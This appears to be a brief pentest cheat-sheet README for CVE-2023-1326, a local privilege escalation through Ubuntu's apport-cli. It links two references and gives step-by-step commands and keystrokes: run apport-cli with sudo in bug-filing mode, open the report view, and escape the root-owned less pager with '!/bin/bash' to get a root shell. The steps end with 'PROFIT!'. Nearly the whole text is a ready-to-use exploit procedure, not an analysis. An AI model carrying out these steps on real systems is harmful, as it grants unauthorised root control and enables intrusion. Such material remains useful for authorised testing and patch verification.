 # Apport-cli Privesc

## Resources: 

### 1) https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/

### 2) https://github.com/diego-tella/CVE-2023-1326-PoC

# With sudo:

## Steps:

#### 1) Check version

    sudo /usr/bin/apport-cli -v 

#### 2) Enter debug mode

    sudo /usr/bin/apport-cli --file-bug 

#### 3) Choose 1

#### 4) Choose 2

#### 5) Press V

#### 6) Enter !/bin/bash to execute an elevated bash shell (Opens a less page as root)

#### 7) PROFIT!
